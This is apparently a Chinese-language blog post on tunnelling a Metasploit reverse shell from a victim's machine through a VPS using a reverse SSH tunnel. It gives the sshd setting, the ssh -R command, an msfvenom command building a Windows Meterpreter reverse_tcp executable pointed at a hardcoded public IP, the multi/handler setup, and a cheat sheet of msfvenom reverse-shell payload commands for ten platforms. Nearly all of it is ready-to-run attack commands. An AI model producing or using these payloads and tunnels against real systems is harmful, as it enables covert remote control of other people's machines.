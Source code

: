 ```yaml
---
layout:     post
title:      通过 VPS SSH Tunnel 实现内网穿透
author:     wooy0ung
tags: 		msf
category:  	exploit
---
```



>内网 IP 一般是动态变化的, 直接以内网 IP 的点对点通讯不利于维持控制。
>因此, 必须有一个公网 IP 作为跳板(这里用VPS), 当 Victim 反向连接 VPS时, 进行端口转发, 将
所有流量通过 SSH Tunnel 发送到 Attacker 的机器。  
![](/assets/img/exploit/2017-09-02-vps-ssh-msf/0x00.png)
<!-- more -->


### 0x00 config & open SSH Tunnel

在 /etc/ssh/sshd_config 文件末尾添加

```
GatewayPorts yes
```

打开ssh隧道

```
$ ssh -N -R 9000:192.168.1.116:9000 root@VPS_IP
```


### 0x01 make payload & exploit

生成 x86 Windows payload

```
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=188.166.209.119 LPORT=9000 -f exe > run.exe
```

start msf

```
msf > use exploit/multi/handler 
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
msf exploit(handler) > set lhost 0.0.0.0
msf exploit(handler) > set lport 9000
msf exploit(handler) > set exitonsession false
msf exploit(handler) > exploit -j
```

测试 ssh Tunnel 是否畅通

```
$ tcping VPS_IP 9000
```

msf弹出提示信息, 端口转发正常

![](/assets/img/exploit/2017-09-02-vps-ssh-msf/0x01.png)

在 Victim's Machine 上执行 payload, getshell~

![](/assets/img/exploit/2017-09-02-vps-ssh-msf/0x02.png)


### 0x02 后记: msfvenom生成各类payload命令

```
Linux: 
msfvenom -p linux/x86/meterpreter/reverse_tcp lhost=IP lport=PORT -f elf > shell.elf

Windows: 
msfvenom -p windows/meterpreter/reverse_tcp lhost=IP lport=PORT -f exe > shell.exe

Mac: 
msfvenom -p osx/x86/shell_reverse_tcp lhost=IP lport=PORT -f macho > shell.macho

PHP: 
msfvenom -p php/meterpreter_reverse_tcp lhost=IP lport=PORT -f raw > shell.php cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php

ASP: 
msfvenom -p windows/meterpreter/reverse_tcp lhost=IP lport=PORT -f asp > shell.asp

JSP: 
msfvenom -p java/jsp_shell_reverse_tcp lhost=IP lport=PORT -f raw > shell.jsp

WAR: 
msfvenom -p java/jsp_shell_reverse_tcp lhost=IP lport=PORT -f war > shell.war

Python: 
msfvenom -p cmd/unix/reverse_python lhost=IP lport=PORT -f raw > shell.py

Bash:
msfvenom -p cmd/unix/reverse_bash lhost=IP lport=PORT -f raw > shell.sh

Perl: 
msfvenom -p cmd/unix/reverse_perl lhost=IP lport=PORT -f raw > shell.pl
```